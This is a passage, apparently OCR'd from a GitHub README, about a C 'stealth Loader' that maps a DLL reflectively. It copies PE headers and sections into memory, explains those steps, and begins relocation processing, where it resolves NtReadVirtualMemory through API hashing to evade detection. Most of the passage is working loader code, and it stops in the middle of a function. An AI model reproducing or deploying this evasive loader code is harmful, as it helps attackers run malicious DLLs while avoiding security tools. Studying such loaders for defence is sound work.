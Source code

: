         unsigned long long int delta_image_base = (unsigned long long int)dll_base - (unsigned long long int)nt_headers->OptionalHeader.ImageBase;
        memcpy(dll_base, dll_bytes, nt_headers->OptionalHeader.SizeOfHeaders);

        PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt_headers);
        for(size_t i = 0; i < nt_headers->FileHeader.NumberOfSections; i++) {
            void *section_destination = (LPVOID)((unsigned long long int)dll_base + (unsigned long long int)section->VirtualAddress);
            void *section_bytes = (LPVOID)((unsigned long long int)dll_bytes + (unsigned long long int)section->PointerToRawData);
            memcpy(section_destination, section_bytes, section->SizeOfRawData);
            section++;
        }
    ```
        1. **Allocate Memory for DLL Header**:
        - First, memory is allocated to store the DLL's header.
        - This is done by calling `NtAllocateVirtualMemory` to allocate memory, typically the size of the DLL's header.
        - The DLL's header is then copied into this allocated memory using `memcpy`.

        2. **Calculate Offset**:
        - The difference between the base address of the allocated memory and the ImageBase address in the DLL's PE file header is calculated.
        - This offset is necessary for later when copying sections of the DLL.

        3. **Iterate Through DLL Sections**:
        - The code iterates through each section of the DLL as defined in its PE file header.
        - For each section, memory is allocated to store the section's contents.
        - The section's contents are then copied into the allocated memory using `memcpy`.
        - The offset calculated earlier is added to the destination address to ensure proper copying.

    - stealth Loader part 4:
    ```c
        IMAGE_DATA_DIRECTORY relocations = nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
        unsigned long long int relocation_table = relocations.VirtualAddress + (unsigned long long int)dll_base;
        unsigned long relocations_processed = 0;

        while(relocations_processed < relocations.Size) {
            PBASE_RELOCATION_BLOCK relocation_block = (PBASE_RELOCATION_BLOCK)(relocation_table + relocations_processed);
            relocations_processed += sizeof(BASE_RELOCATION_BLOCK);
            unsigned long relocations_count = (relocation_block->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
            PBASE_RELOCATION_ENTRY relocation_entries = (PBASE_RELOCATION_ENTRY)(relocation_table + relocations_processed);

            for(unsigned long i = 0; i < relocations_count; i++) {
                relocations_processed += sizeof(BASE_RELOCATION_ENTRY);
                if(relocation_entries[i].Type == 0)
                    continue;

                unsigned long long int relocation_rva = relocation_block->PageAddress + relocation_entries[i].Offset;
                unsigned long long int address_to_patch = 0;
                void *p_nt_read_virtual_memory = get_proc_address_by_hash(p_ntdll, NtReadVirtualMemory_CRC32b);
                NtReadVirtualMemory_t g_nt_read_virtual_memory = (NtReadVirtualMemory_t) p_nt_read_virtual_memory;
                if((status = g_nt_read_virtual_memory(((HANDLE) -1), (void *)((unsigned long long int)dll_base + relocation_rva), &address_to_patch, sizeof(unsigned long long int), NULL)) != 0x0)
                    return -5;
